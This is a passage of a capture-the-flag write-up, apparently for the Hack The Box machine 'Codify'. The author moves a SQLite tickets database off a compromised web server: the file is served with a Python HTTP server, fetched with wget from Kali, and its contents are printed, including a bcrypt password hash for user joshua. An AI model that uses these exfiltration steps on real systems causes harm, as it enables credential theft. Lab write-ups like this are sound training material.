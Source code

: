 ```
svc@codify:/var/www$ ls -al
total 20
drwxr-xr-x  5 root root 4096 Sep 12 17:40 .
drwxr-xr-x 13 root root 4096 Oct 31 07:57 ..
drwxr-xr-x  3 svc  svc  4096 Sep 12 17:45 contact
drwxr-xr-x  4 svc  svc  4096 Sep 12 17:46 editor
drwxr-xr-x  2 svc  svc  4096 Apr 12  2023 html
```
Although we never interacted with it externally, we can find an interesting database file within contact:
```
svc@codify:/var/www/contact$ ls
index.js  package.json  package-lock.json  templates  tickets.db
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```
If the ticket database had been large, it would be best to transfer the file to our local kali machine to access properly. We can do this with a python simple http server:
```
svc@codify:/var/www/contact$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
with the server open, just `wget` from kali, making sure you match the port specified:
```
┌──(kali㉿kali)-[~/Documents/codify]
└─$ wget http://codify.htb:8000/tickets.db                                          
--2023-11-05 12:19:41--  http://codify.htb:8000/tickets.db
Resolving codify.htb (codify.htb)... 10.129.156.196
Connecting to codify.htb (codify.htb)|10.129.156.196|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 20480 (20K) [application/octet-stream]
Saving to: ‘tickets.db.1’

tickets.db                   100%[==============================================>]  20.00K  --.-KB/s    in 0.05s   

2023-11-05 12:19:41 (424 KB/s) - ‘tickets.db.1’ saved [20480/20480]
```
This is where stabilizing the reverse shell comes in handy. The http server will run indefinitely, until we kill it. If we had not stabilized, we would instead be killing our reverse shell:
```
svc@codify:/var/www/contact$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.134 - - [05/Nov/2023 17:19:48] "GET /tickets.db HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
svc@codify:/var/www/contact$ 
```
Since this database is small and "easy" to read, we can just cat the contents out directly:
```
svc@codify:/var/www/contact$ cat tickets.db 
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)�� tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
<...SNIP..>
```